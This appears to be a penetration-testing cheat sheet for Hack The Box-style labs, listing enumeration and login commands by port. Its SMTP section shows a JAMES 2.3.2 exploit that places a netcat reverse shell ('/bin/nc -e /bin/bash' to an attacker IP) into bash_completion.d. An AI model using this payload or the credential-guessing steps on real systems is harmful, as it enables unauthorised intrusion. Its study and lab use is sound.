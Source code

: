 FTP-21:
----------------
       ftp 10.10.10.10
       username:anonymous
       password:password
       
       
       ftp 10.10.10.10
       username:password:)
       password:password       psy shell
       
SSH-22:
------------------
       ssh user@10.10.10.10
       ssh -i id_rsa user@10.10.10.10
       ssh -L 5001:127.0.0.1:5009 user@10.10.10.10
       ssh -oKexAlgorithms=diffie-hellman-group1-sha1 -p 22022 sunny@10.10.10.76
       ssh permission 400 or 600
       
TELNET-23:
-------------------
       telnet 10.10.10.10  
       telnet 10.10.10.10 53 (Banner grabbing)
       
SMTP-25:
-------------------
       220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Mon, 30 Dec 2019 17:10:56 -0500 (EST)
       EHLO bla.bla
       250-solidstate Hello bla.bla (10.10.14.12 [10.10.14.12])
       250-PIPELINING
       250 ENHANCEDSTATUSCODES
       MAIL FROM: <'random@random.com>
       250 2.1.0 Sender <'random@random.com> OK
       RCPT TO: <../../../../../../../../etc/bash_completion.d>
       250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
       DATA
       354 Ok Send data ending with <CRLF>.<CRLF>
       FROM: bla.bla
       '
       /bin/nc -e /bin/bash 10.10.14.12 1234
       .
       250 2.6.0 Message received
       quit
       
      
DNS-53:
--------------------------------
       nslookup
       server 10.10.10.10
       10.10.10.10
       
       
       host -l hack.htb 10.10.10.10
       
HTTP-80:
-----------------------------------
       CMS OR CF OR user,help,admin,robots.txt
       source code and page info(look into certificates foremail id)
       dirbuster or gobuster or wfuzz
       burp suite 
       Windows or Linux
       
       
Kerberos-88:
------------------------------------




POP3-110:
------------------------------------
       nc 10.10.10.10 110
       USER  mindy
       PASS password
       
       telnet 10.10.10.10   110
       username:
       root
       password:
       root
       
RPCBIND-111:
-------------------------------------
       rpcbind -p 10.10.10.10
       
MSRPC-135:
-------------------------------------
       NMAP SCRIPTS
       METASPLOIT
SMB(139 OR 445):
-----------------------------------
       smbclient -L 10.10.10.10
       smbmap -R -H 10.10.10.10
       enum4linux -a 10.10.10.10
       rpcclient -U "" 10.10.10.10
       nbtscan -r 10.10.10.0/24

HTTPS-443:
---------------------------------------------
       CMS OR CF OR user,help,admin,robots.txt
       source code and page info(look into certificates foremail id)
       dirbuster or gobuster or wfuzz
       burp suite 
       Windows or Linux
       
       
       
